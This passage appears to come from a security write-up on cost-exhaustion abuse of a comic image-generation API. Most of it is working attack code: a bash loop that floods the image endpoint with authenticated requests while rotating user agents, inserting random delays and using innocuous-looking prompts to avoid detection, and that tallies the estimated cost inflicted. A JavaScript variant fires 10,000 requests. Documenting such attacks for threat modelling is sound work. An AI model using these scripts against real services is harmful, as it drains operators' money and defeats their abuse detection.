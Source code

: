 ```bash

# Normal-looking prompts (not obviously malicious)
NORMAL_PROMPTS=(
  "A comic book hero standing on a rooftop"
  "Two characters having a conversation in a coffee shop"
  "A mysterious figure in the shadows"
  "A bustling city street scene"
  "A character discovering something surprising"
)

COUNTER=0
while true; do
  COUNTER=$((COUNTER + 1))
  
  # Select random user agent and prompt
  UA=${USER_AGENTS[$RANDOM % ${#USER_AGENTS[@]}]}
  PROMPT=${NORMAL_PROMPTS[$RANDOM % ${#NORMAL_PROMPTS[@]}]}
  
  echo "[${COUNTER}] Generating: ${PROMPT}"
  
  curl -s -X POST "${TARGET_API}/api/comics/generate-image" \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "Content-Type: application/json" \
    -H "User-Agent: ${UA}" \
    -d "{\"panelDescription\":\"${PROMPT}\"}" \
    > /dev/null
  
  echo "[+] Request ${COUNTER} complete | Estimated cost so far: \$$(echo "scale=2; $COUNTER * 0.040" | bc)"
  
  random_delay
done
```

#### Attack Variants

**Variant A: Legitimate User Abuse**
```javascript
// User writes script to generate unlimited comics
const generateComics = async () => {
  for (let i = 0; i < 10000; i++) {
    await fetch('/comics/generate-image', {
      method: 'POST',
      headers: { 'Authorization': `Bearer ${myToken}` },
      body: JSON.stringify({ 
        panelDescription: `Comic ${i}` 
      })
    });
  }
};
```
